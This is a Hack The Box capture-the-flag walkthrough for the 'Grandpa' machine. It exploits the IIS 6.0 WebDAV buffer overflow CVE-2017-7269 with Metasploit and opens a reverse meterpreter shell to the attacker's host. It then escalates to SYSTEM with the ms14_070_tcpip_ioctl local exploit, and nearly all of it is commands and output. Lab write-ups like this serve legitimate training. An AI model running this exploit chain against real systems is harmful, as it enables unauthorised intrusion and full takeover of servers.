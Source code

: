 ```yaml
---
description: Walkthrough (Easy)
---
```


# Grandpa 🟢🟢🟢

<figure><img src="../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

[https://app.hackthebox.com/machines/grandpa](https://app.hackthebox.com/machines/grandpa)&#x20;

Grandpa is one of the simpler machines on Hack The Box, however it covers the widely-exploited CVE-2017-7269. This vulnerability is trivial to exploit and granted immediate access to thousands of IIS servers around the globe when it became public knowledge.

### Reconnaissance

```bash
nmap -T4 -sVC 10.10.10.14 -oN Nmap
```

<figure><img src="../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

* Found only port 80 is open and running `IIS httpd 6.0`
* Google `IIS httpd 6.0`  got me WebDAV '`ScStoragePathFromUrl'` Remote Buffer Overflow
* Load `msfconsole`  and search for `ScStoragePathFromUrl` &#x20;

```bash
msf6 > use windows/iis/iis_webdav_scstoragepathfromurl
msf6 > set rhosts 10.10.10.14
msf6 > set lhost tun0
msf6 > run
```

### Migrate to stable processor&#x20;

{% code fullWidth="false" %}
```bash
meterpreter > ps

Process List
============

PID   PPID  Name               Arch  Session  User                          Path
---   ----  ----               ----  -------  ----                          ----

968  580   wmiprvse.exe       x86   0        NT AUTHORITY\NETWORK SERVICE  C:\WINDOWS\system32\wbem\wmiprvse.
2096  392   vssvc.exe
2328  580   wmiprvse.exe
2396  1484  w3wp.exe           x86   0        NT AUTHORITY\NETWORK SERVICE  c:\windows\system32\inetsrv\w3wp.e
2464  580   davcdata.exe       x86   0  

meterpreter > migrate 2396
[*] Migrating from 2636 to 2396...
[*] Migration completed successfully.

meterpreter > press(ctrl+z)
Background session 1? [y/N]  y

```
{% endcode %}

### Previlage Esculation

* Need to find any local exploit work on this session.

```bash
msf6 > use post/multi/recon/local_exploit_suggester

msf6 post(multi/recon/local_exploit_suggester) > set session 1
msf6 post(multi/recon/local_exploit_suggester) > run

#   Name                                           Vulnerable?  Check Result
 -   ----                                         -------------  ------------
 1   exploit/windows/local/ms10_015_kitrap0d             Yes      The service is running, but could not be validated.                                                                      
 2   exploit/windows/local/ms14_058_track_popup_menu     Yes      The target appears to be vulnerable.                                                                                     
 3   exploit/windows/local/ms14_070_tcpip_ioctl          Yes      The target appears to be vulnerable.                                                                                     
 4   exploit/windows/local/ms15_051_client_copy_image    Yes      The target appears to be vulnerable.                                                                                     
 5   exploit/windows/local/ms16_016_webdav               Yes      The service is running, but could not be validated.                                                                      
 6   exploit/windows/local/ppr_flatten_rec               Yes      The target appears to be vulnerable.
```

* Tried but best suits `exploit/windows/local/ms14_070_tcpip_ioctl`

```bash
msf6 > use exploit/windows/local/ms14_070_tcpip_ioctl
msf6 exploit(windows/local/ms14_070_tcpip_ioctl) > sessions

Active sessions
===============

  Id  Name  Type                     Information                           Connection
  --  ----  ----                     -----------                           ----------
  1         meterpreter x86/windows  NT AUTHORITY\NETWORK SERVICE @ GRANP  10.10.16.6:1234 -> 10.10.10.14:1030
                                     A                                     (10.10.10.14)

msf6 exploit(windows/local/ms14_070_tcpip_ioctl) > set session 1
msf6 exploit(windows/local/ms14_070_tcpip_ioctl) > run

meterpreter > ps

Process List
============
1940  392   alg.exe            x86   0        NT AUTHORITY\LOCAL SERVICE    C:\WINDOWS\System32\alg.exe
1968  580   wmiprvse.exe       x86   0        NT AUTHORITY\NETWORK SERVICE  C:\WINDOWS\system32\wbem\wmiprvse.
2328  580   wmiprvse.exe       x86   0        NT AUTHORITY\SYSTEM           C:\WINDOWS\system32\wbem\wmiprvse.
2396  1484  w3wp.exe           x86   0        NT AUTHORITY\SYSTEM           c:\windows\system32\inetsrv\w3wp.e
2464  580   davcdata.exe       x86   0        NT AUTHORITY\NETWORK SERVICE  C:\WINDOWS\system32\inetsrv\davcda

# Got some SYSTEM processors so now migrate to SYSTEM
meterpreter > migrate 2328

meterpreter > shell

C:\WINDOWS\system32>whoami
whoami
nt authority\system
```

* Now we are root and have all access over the machine.
* User flag -> C:\Documents and Settings>`type Harry\Desktop\user.txt`
* Root flag -> C:\Documents and Settings>`type Administrator\Desktop\root.txt`

<figure><img src="../.gitbook/assets/image (75).png" alt=""><figcaption></figcaption></figure>
